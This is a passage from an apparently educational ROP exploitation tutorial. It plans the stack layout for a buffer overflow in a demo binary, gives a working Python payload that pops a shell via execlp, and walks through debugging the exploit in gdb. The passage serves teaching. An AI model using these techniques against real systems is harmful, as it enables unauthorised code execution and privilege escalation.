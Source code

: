 Now that we know all the tricks we need, we can exploit the program. First, we plan what we want the stack to look like:

~~~
:::text
| 0x0 (NULL)                              |
| 0x80483fa <address of the weird string> |
| 0x80483fa <address of the weird string> |
| 0x5564b6f0 <address of execlp>          |
| 0x42424242 <fake old %ebp>              |
| 0x41414141 ...                          |
|   ... (0x6c bytes of 'A's)              |
|   ... 0x41414141                        |
~~~ 

Putting it all together, we get our shell:

~~~
:::console
$ cat <(python -c 'print "A"*0x6c + "BBBB" + "\xf0\xb6\x64\x55" + "\xfa\x83\x04\x08"*2 + "\x00\x00\x00\x00"') - | ./a.out
~~~

To recap, this exploit required us to use the following tricks in addition to ROP:

-   Executing `python` since `bash` drops privileges
-   Controlling the `PATH` and executing a file in a directory we control with `execlp`.
-   Choosing a filename that was a "string" of bytes from the code segment.
-   Keeping `stdin` open using `bash` sub shells and `cat`.


# Debugging #

## `gdb` ##

When you exploit doesn't work the first time, there are some tricks you can use to debug and figure out what is going on. The first thing you should do is run the exploit in `gdb` with your payload. You should break on the return address of the function you are overflowing and print the stack to make sure it is what you expect. In the following example, I forgot to do `ulimit -s unlimited` before calculating `libc` addresses so the address of `execlp` is wrong:

~~~
:::console
$ gdb -q a.out
Reading symbols from /tmp/a.out...(no debugging symbols found)...done.
(gdb) disas vulnerable_read
Dump of assembler code for function vulnerable_read:
   0x080483d4 <+0>:  push   %ebp
   0x080483d5 <+1>:  mov    %esp,%ebp
   0x080483d7 <+3>:  sub    $0x88,%esp
   0x080483dd <+9>:  movl   $0xc8,0x8(%esp)
   0x080483e5 <+17>: lea    -0x6c(%ebp),%eax
   0x080483e8 <+20>: mov    %eax,0x4(%esp)
   0x080483ec <+24>: movl   $0x0,(%esp)
   0x080483f3 <+31>: call   0x80482f0 <read@plt>
   0x080483f8 <+36>: leave  
   0x080483f9 <+37>: ret    
End of assembler dump.
(gdb) break *0x080483f9
Breakpoint 1 at 0x80483f9
(gdb) run <in
Starting program: /tmp/a.out <in

Breakpoint 1, 0x080483f9 in vulnerable_read ()
(gdb) x/4a $esp
0xffffd6ec:	0x5564b6f0	0x80483fa <main>	0x80483fa <main>	0x0
~~~
